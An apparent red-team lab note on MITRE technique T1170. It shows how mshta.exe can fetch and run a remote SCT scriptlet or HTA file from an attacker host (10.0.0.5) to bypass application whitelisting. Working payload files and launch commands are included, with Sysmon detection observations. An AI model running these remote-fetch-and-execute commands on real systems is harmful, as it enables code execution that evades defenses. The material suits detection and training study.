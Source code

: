 ```yaml
---
description: MSHTA code execution - bypass application whitelisting.
---
```


# T1170: MSHTA

## Execution

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
# from powershell
/cmd /c mshta.exe javascript:a=(GetObject("script:http://10.0.0.5/m.sct")).Exec();close();
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

As expected, calc is spawned by mshta. Also, mhsta and cmd exit almost immediately after invoking the calc.exe.

![](../.gitbook/assets/mshta-calc.png)

Look at sysmon for mshta establishing network connections:

![](../.gitbook/assets/mshta-connection.png)

Also, suspicious commandlines:

![](../.gitbook/assets/mshta-commandline.png)

## Bonus

The hta file can be invoked like so:

```bash
mshta.exe http://10.0.0.5/m.hta
```

![](../.gitbook/assets/mshta-calc2.png)

or by navigating to the file itself, launching it and clicking run:

![](../.gitbook/assets/mshta-url.png)

{% code-tabs %}
{% code-tabs-item title="http://10.0.0.5/m.hta" %}
```markup
<html>
<head>
<script language="VBScript"> 
    Sub RunProgram
        Set objShell = CreateObject("Wscript.Shell")
        objShell.Run "calc.exe"
    End Sub
RunProgram()
</script>
</head> 
<body>
    Nothing to see here..
</body>
</html>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1170" %}

